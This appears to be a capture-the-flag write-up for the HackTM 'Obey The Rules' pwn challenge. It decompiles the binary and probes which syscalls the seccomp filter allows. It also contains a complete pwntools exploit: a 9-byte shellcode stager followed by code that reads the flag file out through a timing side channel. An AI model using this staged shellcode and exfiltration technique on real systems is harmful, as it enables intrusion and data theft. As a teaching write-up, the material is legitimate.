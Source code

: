 ```yaml
---
layout: post
category: Pwn
title: HackTM - Obey The Rules
tags: 
    - kowu
---
```


Obey the rules was a simple pwning / shellcoding challenge at HackTM. Loading in r2 we see the following:


[Download](../assets/bin/hacktm_obey_the_rules)

```
user@KARCH ~/ctf/rules % r2 obey_the_rules
 -- Press any key to continue ...
[0x00400a70]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400a70]> s main
[0x00400ce1]> pdg

undefined8 main(void)
{
    int64_t iVar1;
    int32_t iVar2;
    undefined8 uVar3;
    int64_t in_FS_OFFSET;
    int64_t var_84h;
    int64_t var_78h;
    int64_t var_70h;
    int64_t var_8h;
    
    iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.init_proc();
    sym.imp.memset(&var_70h, 0, 100);
    sym.open_read_file((int64_t)"header.txt", 100, (int64_t)&var_70h);
    sym.imp.puts(&var_70h);
    var_84h._0_4_ = sym.open_read_file((int64_t)"description.txt", 800, (int64_t)obj.description);
    sym.imp.printf("\n    %s\n  ", obj.description);
    sym.imp.puts(" >> Do you Obey? (yes / no)");
    sym.imp.read(0, obj.answer, 0xb);
    var_84h._0_4_ = sym.open_read_file((int64_t)"RULES.txt", 0x96, (int64_t)obj.rules);
    var_84h._4_2_ = (undefined2)((int32_t)var_84h >> 3);
    iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_NO_NEW_PRIVS)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.prctl(0x16, 2, (int64_t)&var_84h + 4);
    if (iVar2 < 0) {
        sym.imp.perror("prctl(PR_SET_SECCOMP)");
    // WARNING: Subroutine does not return
        sym.imp.exit(2);
    }
    iVar2 = sym.imp.strcmp(obj.answer, "Y");
    if (iVar2 == 0) {
        sym.set_context();
    } else {
        sym.imp.system("/bin/sh");
    }
    uVar3 = 0;
    if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar3 = sym.imp.__stack_chk_fail();
    }
    return uVar3;
}

[0x00400ce1]> pdg @sym.set_context

void sym.set_context(void)
{
    int64_t iVar1;
    int64_t var_8h;
    
    iVar1 = sym.imp.strlen(obj.answer);
    obj.answer[iVar1] = (code)0x59;
    sym.imp.strcpy(_obj.region, obj.answer);
    (*_obj.region)(0x539);
    return;
}
[0x00400ce1]> 
```
First of all, we see that the r2 ghidra plugin is nice for quick decompilation needs. Second, we see what the challenge does:
 - printing some fancy headers
 - reading a maximum of 11 Bytes from stdin
 - loading seccomp rules unknown to us out of a file
 - if the input is "Y\0", it will jump into our sumbitted input and executes it (the nullybte is replaced by another 'Y')
 - else it executes /bin/sh, which is killed due to seccomp

So after excluding "Y\0" we have a total of 9 bytes left for shellcode.

## Testing for allowed syscalls

First I checked which syscalls are allowed. If a syscall was forbidden, it would report `illegal instruction`, else a `segmentation fault` occurs.
As we could not use nullbytes due to the strcpy, i checked the syscall id 0 case manually and used the following code for the other syscalls up to 255:
```
xor rax, rax;
mov al, {nr};
syscall;
ud2;
```
Which compiles down to exactly 9 bytes. The ud2 is optional and should just crash immediately if the syscall succeeded.
I found out that the syscalls (0 read, 2 open, 60 exit) are allowed.
That's enough to work with as the flag location was given and even if a write is lacking I could just use some sidechannel to exfiltrate the flag.

## Getting unlimited RCE

To get unlimited RCE I planned to reread additonal shellcode by using something like read(0, $rip, amount). We need to get:
 - rax = 0
 - rdi = 0
 - rsi = $rip
 - rdx = amount

The only "trick" I used to save bytes was using `push rbx; pop rax;` (2 bytes) instead of moving registers with `mov rax, rbx;` (3 bytes).
For getting rax = rdi = 0 I used the fact that register rbx would always be zero, which lead to the following shellcode.
```
push rbx;
push rbx;
pop rax;
pop rdi;
```
To get rsi right in front of our $rip I used the fact that the current top of stack just holds exactly that value.
```
pop rsi;
```
Lastly I wanted to read some bigger amount, so I just wrote 0xff to rdx's high byte.
```
mov dh, 0xff;
```
Two bytes left for the syscall, we are ready to overwrite the code at $rip :)
```
syscall;
```

## Sidechannels and Profit

For exfiltrating the flag there are two sidechannels which came to my mind.
 - timing based (burn cpu cycles using some loop)
 - blocked syscall based (1/0 oracle by calling a blocked syscall or exit normally)

I decided to go with the timing one. To speed things up one could implement fancy stuff like a binary search or burn CPU power depending on the currently exfiltrated character with that approach. I did not.
So here is the final script stupidly bruteforcing all possibilities. Notice that I open the file twice to increment the fd id. Because the seccomp filter seemed to block read syscalls with fd==3.

```python
from pwn import *
import time

context.clear(arch='amd64')

payload1 = asm(
    """
    push rbx;
    push rbx;
    pop rax;
    pop rdi;
    pop rsi;
    mov dh, 0xff;
    syscall;
    """
)
assert len(payload1) < 10

payload2 = (
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.open('/home/pwn/flag.txt') +
        shellcraft.read(fd='rax', buffer='rsp', count=0x100) +
        'xor rcx, rcx;' +
        'mov al, [rsp + {}];' +
        'cmp al, {};' +
        'jne done;' +
        'mov rcx, 0x3ffffff;' +
        'times:\nloop times;done:;' +
        shellcraft.exit(0)
)


def sploit(r, idx, ch):
    r.send('Y\0' + payload1.ljust(9, '\x90') + '\x90' * 11 + asm(payload2.format(idx, ch)))


if __name__ == '__main__':
    flag = ''

    while True:
        print(flag)
        for c in string.printable:
            r = remote('138.68.67.161', 20001)
            r.recvuntil('>>')
            sploit(r, len(flag), ord(c))
            a = time.time()
            try:
                r.recvuntil('yeet')
            except EOFError:
                pass
            if time.time() - a > 0.8:
                flag += c
                break
            r.close()
```
